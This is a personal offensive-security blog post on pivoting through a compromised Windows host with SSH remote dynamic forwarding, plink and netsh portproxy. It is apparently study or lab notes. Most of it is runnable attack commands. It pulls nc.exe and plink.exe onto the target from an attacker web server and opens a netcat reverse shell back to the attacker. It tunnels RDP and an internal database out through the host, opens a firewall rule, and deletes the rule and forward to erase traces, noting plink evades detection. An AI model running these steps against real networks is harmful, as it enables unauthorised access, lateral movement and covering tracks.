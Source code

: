 ```yaml
---
layout: post
title: Windows Port Forwarding
titledate: 09/24/23
tags: ["infosec", "info_gathering", "offsec", "tunnel", "plink", "netsh", "ssh"]
---
```


#### Windows SSH tools

windows has ssh and several other bundled tools available by default since win 1803 and an option since 1709 

by default ssh is located in %systemdrive%\Windows\System32\OpenSSH

if our DMZ target1 has ssh installed we can use that to setup a remote dynamic port forward

on our attacking machine

    $ sudo systemctl start ssh

then on our attacking machine we connect via rdp to the connection that has ssh installed via rdp

    $ xfreerdp /u:rdp_user /p:password /v:192.168.1.1

to check for ssh in windows

    $ where ssh

    $ ssh.exe -V

if the versin of ssh is higher than 7.6 then we can use remote dynamic port forwarding

now we open up the remote dynamic listening session on our kali machine

    target1: ssh -N -R 9998 attacker@192.168.1.1

to check the port is listening on our kali machine

    $ ss -ntplu

update /etc/proxychains4.conf

    socks5 127.0.0.1 9998

in this example the postgres db is on an internal network we cannot reach but our ssh windows machine can , now that we have remote dynamic port forwarding setup, we can use proxychains with psql to connect to this internal db

    $ proxychains psql -h 10.4.50.1 -U postgres

#### plink

what if ssh has been removed

one of the advantages of plink is it is not as readily flagged as an unwanted communication tool compared to some other more well known tools

to run plink we first need to copy over netcat to our windows machine

i do this with a python server

    $ cp /usr/share/windows-resources/binaries/nc.exe .

    $ python3 -m uploadserver

or if we have a shell only

    target1:> powershell wget -Uri http://192.168.10.10/nc.exe -OutFile C:\Windows\Temp\nc.exe

then on windows i can download the the executable

setup a netcat listener on our attacker

    $ nc -nvlp 4446

on the windows taget connect to the nc listener

    $ C:\Windows\Temp\nc.exe -e cmd.exe 192.168.1.1 4446

then we copy plink over to windows

    $ cp /usr/share/windows-resources/binaries/plink.exe .

if no gui an shell only

    C:> powershell wget -Uri http://192.168.118.4/plink.exe -OutFile C:\Windows\Temp\plink.exe

once plink is copied over

    $ C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.1.1

then on our kali host we can check that 9833 is listening

    $ ss -ntplu

now we can conect to the attacking machine loopback interface through port 9983 via rdp through the plink remote port forward

    $ xfreerdp /u:rdp /p:password /v:127.0.0.1:9833

#### netsh

netsh does require admin privs to setup port forwarding but it is a native windows tool

in this example we want to connect to an internal pg db via an ssh port forward and have admin rdp access to a target windows machine

we rdp to the machine

    $ xfreerdp /u:rdp /p:password /v:192.168.1.1

because we can run cmd as admin we do so

    C:> netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.1.1 connectport=22 connectaddress=10.4.1.1

here we use netsh to create a listening external interface 2222  forward traffic to the pg db port 22 

we can use netstat to see our listening ports

    C:> netstat -anp TCP | find "2222"

and check our port forward setup

    C:> netsh interface portproxy show all

now we can check the port from our attacking machine

    $ sudo nmap -sS 192.168.1.1 -Pn -n -p2222

it is possible that a firewall is blocking 2222 if it reports filtered

if this is the case we can use netsh again to create a firewall rule to allow connections on this port

    C:> netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.1.1 localport=2222 action=allow

now if the port is open we can connect from our attacking kali machine to port 2222 on our listening target1 windows machine and directly reach port 22 on the internal pg db machine

    $ ssh database_admin@192.168.1.1 -p2222

after our attack is complete we can delete both the firewall rule and port forward to erase our steps

    C:> netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
    C:> netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.1.1


